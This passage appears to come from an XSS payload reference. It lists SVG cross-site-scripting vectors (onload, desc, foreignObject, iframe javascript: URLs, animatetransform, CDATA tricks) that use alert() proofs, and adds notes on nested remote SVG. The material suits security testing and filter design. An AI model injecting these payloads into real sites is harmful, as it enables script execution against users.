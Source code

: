 More comprehensive payload with svg tag attribute, desc script, foreignObject script, foreignObject iframe, title script, animatetransform event and simple script. Codename: red ligthning. Author: noraj.

```xml
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" width="100" height="100" xmlns="http://www.w3.org/2000/svg" onload="alert('svg attribut')">
  <polygon id="lightning" points="0,100 50,25 50,75 100,0" fill="#ff1919" stroke="#ff0000"/>
  <desc><script>alert('svg desc')</script></desc>
  <foreignObject><script>alert('svg foreignObject')</script></foreignObject>
  <foreignObject width="500" height="500">
    <iframe xmlns="http://www.w3.org/1999/xhtml" src="javascript:alert('svg foreignObject iframe');" width="400" height="250"/>
  </foreignObject>
  <title><script>alert('svg title')</script></title>
  <animatetransform onbegin="alert('svg animatetransform onbegin')"></animatetransform>
  <script type="text/javascript">
    alert('svg script');
  </script>
</svg>
```



#### Short SVG Payload

```javascript
<svg xmlns="http://www.w3.org/2000/svg" onload="alert(document.domain)"/>

<svg><desc><![CDATA[</desc><script>alert(1)</script>]]></svg>
<svg><foreignObject><![CDATA[</foreignObject><script>alert(2)</script>]]></svg>
<svg><title><![CDATA[</title><script>alert(3)</script>]]></svg>
```

### Nesting SVG and XSS

Including a remote SVG image in a SVG works but won't trigger the XSS embedded in the remote SVG. Author: noraj.

SVG 1.x (xlink:href)

```xml
<svg width="200" height="200" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
  <image xlink:href="http://127.0.0.1:9999/red_lightning_xss_full.svg" height="200" width="200"/>
</svg>
```

Including a remote SVG fragment in a SVG works but won't trigger the XSS embedded in the remote SVG element because it's impossible to add vulnerable attribute on a polygon/rect/etc since the `style` attribute is no longer a vector on modern browsers. Author: noraj.

SVG 1.x (xlink:href)

